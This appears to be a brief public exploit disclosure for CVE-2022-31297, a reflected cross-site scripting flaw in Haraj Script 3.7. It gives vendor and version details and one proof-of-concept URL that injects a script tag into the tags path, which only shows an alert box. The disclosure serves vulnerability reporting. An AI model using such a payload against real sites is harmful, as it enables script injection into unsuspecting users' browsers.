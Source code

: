 # CVE-2022-31297
Haraj Script 3.7 - Reflected XSS

#### Exploit Title: Haraj Script 3.7 - Reflected XSS
#### Date: 2022-06-13
#### CVE: CVE-2022-31297
#### Exploit Author: Abdulaziz Saad (@b4zb0z)
#### Vendor Homepage: https://angtech.org/
#### Software Link: https://angtech.org/product/view/3
#### Version: 3.7
#### Tested on: LAMP, Ubuntu

---

[#] Exploitation :
	`https://localhost/harajnext/tags/test%3C/title%3E%3Cscript%3Ealert(String.fromCharCode(98,52,122,98,48,122))%3C/script%3E`
